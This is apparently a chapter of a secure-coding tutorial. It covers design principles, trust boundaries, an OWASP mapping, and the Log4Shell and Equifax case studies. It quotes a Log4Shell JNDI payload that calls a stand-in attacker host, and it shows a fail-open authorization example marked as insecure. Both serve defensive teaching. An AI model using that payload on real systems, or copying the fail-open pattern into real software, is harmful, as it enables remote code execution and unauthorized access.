

# Chapter 1: Introduction to Secure Coding

> [!TIP]
> **Industry Best Practice:** Secure coding is not an afterthought or a final audit checklist—it is an intrinsic engineering discipline. Aligning developer practices with established security frameworks (OWASP ASVS, NIST SP 800-218) reduces vulnerability remediation costs by up to 100x compared to post-production fixes.

---

## Theory and Architecture

**Secure coding** is the practice of engineering software such that it continues to function predictably under intentional malicious attack, untrusted inputs, and unexpected operational environments. In modern DevSecOps pipelines, secure coding represents the "Shift Left" paradigm—moving security controls directly into the developer workflow.

```
+-----------------------------------------------------------------------------------+
|                            DevSecOps Software Lifecycle                           |
+-----------------------------------------------------------------------------------+
| [ Architecture ] -> [ Secure Coding ] -> [ Automated SAST ] -> [ Production Deployment ] |
| (Threat Model)       (Input/Output)       (Pre-commit/CI)      (Runtime Protection) |
+-----------------------------------------------------------------------------------+
```

---

## The 10 Fundamental Secure Design Principles

The security of an application relies on adherence to core architectural principles defined by Saltzer and Schroeder, expanded for modern cloud and API architectures:



### 1. Defense in Depth (Layered Security)
Never rely on a single security control. If one layer is bypassed or misconfigured, subsequent layers must contain the threat.
* **Example:** An enterprise web application uses a Web Application Firewall (WAF) at the edge, strict schema validation at the API gateway, parameterized SQL queries in the service layer, and fine-grained row-level security (RLS) in the PostgreSQL database.

### 2. Fail Securely (Fail-Safe Defaults)
When an operation encounters an unexpected error, exception, or boundary failure, the system must default to its most secure state (denying access, revoking tokens, logging securely).
* **Example:**
  ```python
  # ❌ INSECURE: Defaults to granting access on unexpected error
  def check_permission(user):
      try:
          return rbac_service.verify(user)
      except ConnectionError:
          return True  # Fails open!

  # ✅ SECURE: Defaults to denying access on exception
  def check_permission(user):
      try:
          return rbac_service.verify(user)
      except Exception as e:
          logger.error(f"Authorization service failure: {e}")
          return False  # Fails closed!
  ```

### 3. Principle of Least Privilege (PoLP)
Every process, microservice, database connection, and user account must operate using the bare minimum privileges required to execute its legitimate task.
* **Example:** A web backend connecting to MySQL uses a database account scoped solely to `SELECT`, `INSERT`, `UPDATE` on user tables—excluding `DROP`, `ALTER`, or access to audit logs.

### 4. Complete Mediation
Every access request to every resource must be checked for authorization, regardless of previous cache status or internal network location. Never assume a request is safe simply because it originated inside a local network.

### 5. Economy of Mechanism (KISS - Keep It Simple, Security)
Keep security architecture as simple and small as possible. Complex permission models, convoluted code paths, and obscure custom cryptographic implementations lead to unmaintainable code and bypasses.

### 6. Open Design (Kerckhoffs's Principle)
Security must not rely on keeping the design, algorithm, or source code secret ("Security through Obscurity"). Cryptographic strength and architectural resilience must remain secure even if an attacker possesses full source code access. Secrets (private keys, tokens) are isolated from code.

### 7. Separation of Privilege
Critical actions should require multiple conditions or independent credentials to complete, preventing a single compromised account from wreaking havoc (e.g., dual-custody approval for wire transfers).

### 8. Least Common Mechanism
Minimize mechanisms shared among different users or tenant boundaries. In multi-tenant SaaS applications, isolate state, memory, and database connections to prevent cross-tenant data leakage.

### 9. Input Allowlisting over Blocklisting
All incoming data is untrusted by default. Validate incoming input against a strict definition of what *is allowed* (type, length, character set, format) rather than filtering out known malicious strings.

### 10. Context-Aware Output Encoding
Before sending data to external interpreters (browsers, SQL engines, OS shells, LDAP), encode or sanitize the data specifically for that target interpreter's context.

---

## Trust Boundaries & Data Flow Modeling

A **Trust Boundary** is any location in an architecture where data crosses from an untrusted or less trusted zone into a highly trusted zone.

```
UNTRUSTED ZONE                           TRUST BOUNDARY                          TRUSTED ZONE
+--------------------+                   +--------------------+                  +-----------------------+
|  Client Browser /  | --- Raw HTTP ---> |  API Gateway /     | --- Sanitized -> | Internal Microservice |
|  Mobile Application|     Payload       |  Schema Validator  |     POJO/Struct  | & DB Engine           |
+--------------------+                   +--------------------+                  +-----------------------+
                                                  |
                                                  v
                                         [ Drop / Reject Bad Data ]
```

> [!WARNING]
> **Critical Concept:** Internal microservices and queue consumers MUST treat messages from internal queues (Kafka, RabbitMQ) as untrusted if those messages originated from external client input. Never drop validation checks internally!

---

## Root Causes of Software Vulnerabilities

At the engineering level, nearly all software vulnerabilities stem from three fundamental anti-patterns:

1. **Conflation of Code and Data:** Passing raw, unescaped user input into an interpreter (SQL engine, system shell, HTML parser, template engine). The interpreter mistakes untrusted data for executable control instructions.
2. **Improper State & Boundary Management:** Trusting client-side state (hidden form fields, cookies, client JWT tokens) without server-side validation.
3. **Inadequate Canonicalization:** Failing to resolve input strings to their simplest, canonical form before validating them, enabling encoding bypasses (`../` vs `%2e%2e%2f`).

---

## OWASP Top 10 (2021) Mapping

Understanding how secure coding directly mitigates the most dangerous vulnerability categories:

| OWASP Category | Primary Vulnerability | Secure Coding Defense |
| :--- | :--- | :--- |
| **A01:2021 - Broken Access Control** | IDOR, Privilege Escalation, Path Traversal | Complete Mediation, PoLP, Server-side authorization checks |
| **A02:2021 - Cryptographic Failures** | Hardcoded secrets, weak algorithms, cleartext transport | Secret management stores, TLS 1.3, AES-256-GCM, bcrypt/argon2id |
| **A03:2021 - Injection** | SQLi, Command Injection, XSS, LDAP Injection | Parameterized queries, Strict allowlisting, Output encoding |
| **A04:2021 - Insecure Design** | Architectural flaws, missing rate limits | Threat modeling, Fail secure defaults, Rate limiting |
| **A05:2021 - Security Misconfiguration** | Default credentials, verbose error stack traces | Automated hardening, Generic error messages, SAST analysis |
| **A08:2021 - Software & Data Integrity** | Insecure deserialization, untrusted updates | Signed artifacts, safe JSON parsers, strict schema typing |

---

## Real-World Vulnerability Case Studies

### Case Study 1: Log4Shell (CVE-2021-44228) — Conflation of Data and Code
* **Root Cause:** The Java logging library `Log4j2` automatically parsed string variables using JNDI (Java Naming and Directory Interface) lookup syntax `${jndi:ldap://attacker.com/a}` inside log statements.
* **Failure:** Untrusted input logged by an application was executed as lookup instructions rather than literal text.
* **Secure Coding Lesson:** Logging frameworks and string formatters must treat log parameters strictly as data. Never auto-parse lookup expressions from user-controlled parameters.

### Case Study 2: Equifax Breach (CVE-2017-5638) — Insecure Parsing
* **Root Cause:** Apache Struts `Content-Type` header parser threw an exception on malformed header strings, but executed OGNL (Object-Graph Navigation Language) expressions included in the error handling code path.
* **Failure:** Lack of fail-safe error handling and improper input validation at the protocol header boundary.
* **Secure Coding Lesson:** Header fields require strict schema validation, and exception handling logic must never evaluate user-supplied expressions.

---

> [!IMPORTANT]
> **Key Takeaway:** Secure code is predictable code. By validating all input at the trust boundary, enforcing strict types, encoding output for target contexts, and failing securely, software can withstand sophisticated zero-day attack vectors.
